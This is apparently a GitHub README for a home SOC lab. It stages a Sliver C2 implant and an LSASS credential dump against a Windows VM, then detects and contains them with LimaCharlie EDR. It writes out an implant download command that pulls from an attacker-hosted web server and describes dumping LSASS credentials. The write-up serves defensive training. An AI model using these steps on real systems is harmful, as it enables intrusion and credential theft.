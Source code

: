 # LimaCharlie-EDR-Lab
![Architecture](https://i.imgur.com/6mftsEk.jpg)

## Introduction

I simulated a real-life cyber attack scenario and tested the effectiveness of my security measures. I created two virtual machines on a NatNetwork: an Ubuntu Server acting as the attacker, and a Windows 11 machine as the victim.

To enhance the security of the victim machine, I installed LimaCharlie sensor and Sysmon, which helped me detect any potential attacks or security events. On the Ubuntu Server, I installed [Sliver-Server C2](https://bishopfox.com/blog/sliver), a command and control attack tool. I will be conducting a Credential Gathering attack using LSASS.exe to extract usernames and passwords. 

To test my security measures, I executed the C2 attack and created detection rules to alert administrators of any suspicious activity. This lab project aimed to demonstrate the importance of having robust security measures in place to protect against cyber attacks.

The Technologies and Tools used during this project:

* Virtual Box NatNetwork
* Virtual Machines 
  + Windows 11
  + Ubuntu Server 22.04
* LimaCharlieEDR
* Silver Server 

## Labbing

After environment is set up I created a Sliver-Server C2 implant on the Ubuntu server to install on to the Windows System

![Implant](https://i.imgur.com/LEP0qSk.png)

Next I created quick websever on the Ubuntu machine for the C2 Payload to be installed from, then I ran this command on the Windows device.

![IWR](https://i.imgur.com/dadsDeX.png)

Command: IWR -Uri http://[IpAddress]/[ImplantName] -Outfile [FileLocation]


After downloading the implant we need to run the malicious file 


![Excute](https://i.imgur.com/mkdYQkp.png)

## After Implant is installed on Victum

We can run some commands inside the sliver-server session itself. 

Jumping inside our our session we can run some commands to identify the device we are on.

Whoami - Hostname

Netstat - Network connections

ps -T - Process Tree (sliver Highlights green its own files)

![Tree](https://i.imgur.com/CfmWUyF.png)


## Inside LimaCharlie EDR

After installing the malicious file we should be able to see this inside of our EDR soultion.

First thing to look at is going to be the processes running. After looking around for some time we see this file that does not have a signature(yellow)

![process](https://i.imgur.com/Pts6px0.png)

After finding that process we can go see that this file location is inside the Downloads folder of a user called Victum so we can locate this inside the filesystem section of LimaCharlie

![filesystem](https://i.imgur.com/ksRCp3P.png)

Now we are going to look at the timeline and go through and see what is going on when this file was installed. 

![timeline](https://i.imgur.com/jYVSaNr.png)

We can see that there is a Network Connetion created and the file in question is COMPLEX_BELL the malicious file. 

Usually a next step would be gathering the hash of the file and running this through VirusTotal but when doing this, VirusTotal returns nothing. This indicates that the attacker crafted this file themselves.  

## Credential Gathering

For attackers getting access to more than one account is critical. A way to do this is gathering creditals from the file lsass.exe. This file holds usernames, passwords and security tokens.

To learn more about LSASS Credential Gathering refer to [Mitre](https://attack.mitre.org/techniques/T1003/001/)

Running this command will copy the contents of the lsass file and dump it inside of the attackers host. 

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

To detect this method of Credential Gathering we will write a detection rule to detect this technique. 

In LimaCharlie we can enter this detection rule: 

![lsass-detection-rule](https://i.imgur.com/6bDKczs.png)

This rule will detect any interaction with the lsass file, so this could cause a lot of False Postives if administrators are using this file. But for this lab it is a good rule since we dont have any actual users. 

Now if we run the lsass dump command again

![lsass-dump](https://i.imgur.com/1TDbDT7.png)

We will be able to detect it inside of LimaCharlie

![Lima-Detections](https://i.imgur.com/mCsvF9u.png)

## Containment & Eradication

First we need to identify if this attack took place on other devices inside the network. Since this lab only has one VM we know that there is only one. Next we should isolate this device from our network to ensure that this attacker can't move around or futher attack our internal network.

![isolate](https://i.imgur.com/E3bqXh9.png)

Then we can either return to a known good snapshot if this is a Virtual Machine. We can also delete the file inside LimaCharlie by going into the filesystem section and finding the malicous file. We will also need to inspect other logs and detections to ensure that no other attacks or malware took place on this device before we put it back on the network. 

The most important part, since this attack was stealing credientials, we need to change passwords, implement MFA and maybe change usernames to ensure the attacker cannot login to other devices or accounts. 

## Conclusion



## Credit

This project was based on a blog post by [Eric Capuano](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro?sd=pf) 


